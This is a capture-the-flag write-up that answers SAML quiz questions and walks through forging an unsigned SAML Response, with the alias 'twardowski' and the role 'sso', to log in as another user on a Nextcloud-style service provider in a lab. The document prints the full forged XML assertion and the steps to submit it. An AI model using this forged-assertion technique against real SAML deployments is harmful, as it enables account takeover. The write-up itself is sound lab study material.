


# Task 7 Twardowski

## 1. What is the name of the XML entity that contains information about user such as their name, email, roles, etc.?

Answer: `assertion`

<br>

Answer for that information we can find in task description:

`IdP authenticates you and creates an SAML assertion`

<br>
<br>

## 2. What is the name of a party that authenticates users and issues SAML assertions?

Answer: `Identity Provider`

<br>

Also that information is in task description:

`IdP authenticates you and creates an SAML assertion`
`a user, an identity provider (IdP)`

<br>
<br>

## 3. What is the date on the document scan from Twardowski's account in DD/MM/YYYY format?

Answer: `15/06/2023`

<br>
<br>

## 4. What should be the value of Content-Type header when sending the SAML Response?

Answer: `application/x-www-form-urlencoded`

I searched for that information in google and I found that information in that [post](https://stackoverflow.com/questions/54880602/how-to-deal-with-saml-responses-without-a-content-type-header).

<br>
<br>

## 5. What should be Destination set to in SAML Response?

Answer: `files.midsummer.corp.local/apps/user_saml/saml/acs`

<br>

That information was in mail from Twardowski to Boruta:
`You can send POST request to the Service Provider (SP) to "/apps/user_saml/saml/acs"`

The first part of url we can find in the main site `10.10.116.151` in the `<a>` tag:

```html 
<a href="https://files.midsummer.corp.local" target="_blank" rel="noreferrer noopener" class="entity-name">Midsummer Corp</a>
```

<br>
<br>

## 6. What should be Issuer set to in SAML Response?
Answer: `http://idp.midsummer.corp`

<br>

In the mail from Twardowski to Boruta we can find sentence:

```
For some reason http://idp.midsummer.corp stopped working lately and I could not bring it back online.
```

<br>
<br>

## 7. What is the content of the Fern_flower_ritual_shard5.txt file in Twardowski's account?

Answer: `Midsummer_Corp{Look_f0r_th3_fern_w1th_silv3r_l3av3s}`

<br>

We must create saml response. I got from the Internet example of a saml response.

``` xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_8e8dc5f69a98cc4c1ff3427e5ce34606fd672f91e6" Version="2.0" IssueInstant="2014-07-17T01:01:48Z" Destination="http://10.10.116.151/apps/user_saml/saml/acs" InResponseTo="ONELOGIN_4fee3b046395c4e751011e97f8900b5273d56685">
  <saml:Issuer>http://idp.midsummer.corp</saml:Issuer>
  <samlp:Status>
    <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </samlp:Status>
  <saml:Assertion xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_d71a3a8e9fcc45c9e9d248ef7049393fc8f04e5f75" Version="2.0" IssueInstant="2014-07-17T01:01:48Z">
    <saml:Issuer>http://idp.midsummer.corp</saml:Issuer>
    <saml:Subject>
      <saml:NameID SPNameQualifier="http://10.10.116.151/apps/user_saml/saml/metadata" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient">_ce3d2948b4cf20146dee0a0b3dd6f69b6cf86f62d7</saml:NameID>
      <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <saml:SubjectConfirmationData NotOnOrAfter="2024-01-18T06:21:48Z" Recipient="http://10.10.116.151/apps/user_saml/saml/acs" InResponseTo="ONELOGIN_4fee3b046395c4e751011e97f8900b5273d56685"/>
      </saml:SubjectConfirmation>
    </saml:Subject>
    <saml:Conditions NotBefore="2014-07-17T01:01:18Z" NotOnOrAfter="2024-01-18T06:21:48Z">
      <saml:AudienceRestriction>
        <saml:Audience>http://10.10.116.151/apps/user_saml/saml/metadata</saml:Audience>
      </saml:AudienceRestriction>
    </saml:Conditions>
    <saml:AuthnStatement AuthnInstant="2014-07-17T01:01:48Z" SessionNotOnOrAfter="2024-07-17T09:01:48Z" SessionIndex="_be9967abd904ddcae3c0eb4189adbe3f71e327cf93">
      <saml:AuthnContext>
        <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
      </saml:AuthnContext>
    </saml:AuthnStatement>
    <saml:AttributeStatement>
      <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">test</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="mail" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">test@example.com</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="alias" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">twardowski</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">sso</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="eduPersonAffiliation" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">users</saml:AttributeValue>
        <saml:AttributeValue xsi:type="xs:string">examplerole1</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>
```


I made some changes:
- issuer: `http://idp.example.com/metadata.php` -> `http://idp.midsummer.corp`
- destination: `http://sp.example.com/demo1/index.php?acs` -> `http://files.midsummer.corp.local/apps/user_saml/saml/acs` but there is some problem `files.midsummer.corp.local` does not exist, we must use machine ip instead
- recipient: same as destination

- Also Twardowski mentioned about the `sso group`, so we need to add something like this in the saml response:

```xml
<saml:AttributeStatement>
  <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">test</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="mail" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">test@example.com</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="alias" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">twardowski</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">sso</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="eduPersonAffiliation" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">users</saml:AttributeValue>
    <saml:AttributeValue xsi:type="xs:string">examplerole1</saml:AttributeValue>
  </saml:Attribute>
</saml:AttributeStatement>
```

- Also we must change metadata
```xml
<saml:AudienceRestriction>
  <saml:Audience>http://10.10.200.65/apps/user_saml/saml/metadata</saml:Audience>
</saml:AudienceRestriction>
```
Without that we will get respone: `Account not provisioned`.

Next we must encode saml response. I used for it [base64encode.org](https://www.base64encode.org/). Next in Postman we must set cookie and body:





After we receive response, we will get cookies: `nc_username: twardowski`.

<br>
<br>
